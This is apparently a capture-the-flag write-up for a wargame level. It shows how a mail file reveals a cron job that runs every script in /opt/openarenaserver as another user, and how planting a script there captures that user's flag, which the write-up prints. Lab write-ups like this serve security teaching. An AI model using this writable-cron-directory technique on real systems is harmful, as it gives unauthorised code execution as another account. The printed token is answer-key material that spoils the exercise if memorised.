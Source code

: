## Level 05: Exploiting a Cron Task Vulnerability

### Goal  
Locate and exploit a vulnerability in a cron task to retrieve the flag for this level.

### Steps

1. **Locate the mail files**  
    Upon login, the following message appears:
    ```bash
    You have new mail.  
    ```
    Use the following command to search for mail directories:
    ```bash
    find / -name mail 2>/dev/null  
    ```
    Output:
    ```
    /usr/lib/byobu/mail
    /var/mail
    /var/spool/mail 
    /rofs/usr/lib/byobu/mail 
    /rofs/var/mail 
    /rofs/var/spool/mail
    ```

2. **List the contents of the directories**  
    To examine the files within these directories:
    ```bash
    ls `find / -name mail 2>/dev/null`
    ```
    Output:
    ```
    /rofs/usr/lib/byobu/mail  /usr/lib/byobu/mail  

    /rofs/var/mail:
    level05

    /rofs/var/spool/mail:
    level05

    /var/mail:
    level05 

    /var/spool/mail: 
    level05 
    ```
    The file `level05` appears in several directories.

3. **Read the content of the level05 file**
    Use the following command:
    ```bash
    cat /var/mail/level05
    ```
    Output:
    ```bash
    */2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
    ```
    The format `*/2 * * * *` indicates a cron task.  
    - `su -c` is a command to switch users and execute a specific command, in this case under flag05.
    - The line specifies that every 2 minutes, the script `/usr/sbin/openarenaserver` will be executed as user `flag05`.

4. **Examine the script `/usr/sbin/openarenaserver`**  
    To understand its functionality:
    ```bash
    cat /usr/sbin/openarenaserver 
    ```
    Output:
    ```bash
    #!/bin/sh 
    for i in /opt/openarenaserver/* ; do 
        (ulimit -t 5; bash -x "$i") 
        rm -f "$i"
    done
    ```
    The script executes all files in `/opt/openarenaserver` with a 5-second timeout and deletes them afterward.

5. **Exploit the vulnerability**  
    To exploit this, create a file in `/opt/openarenaserver` that runs the `getflag` command:
    ```bash
    echo "getflag > /tmp/flag05" > /opt/openarenaserver/flag05
    ```
    - This creates a file named `flag05` in `/opt/openarenaserver` containing the command `getflag > /tmp/flag05`. 
    - When the cron task runs, the script will execute the command and save the output of `getflag` to `/tmp/flag05`.

6. **Retrieve the flag**  
    Wait for 2 minutes for the cron task to execute and then read the output file:
    ```bash
    cat /tmp/flag05
    ```
    Output:
    ```bash
    Check flag.Here is your token : viuaaale9huek52boumoomioc
    ````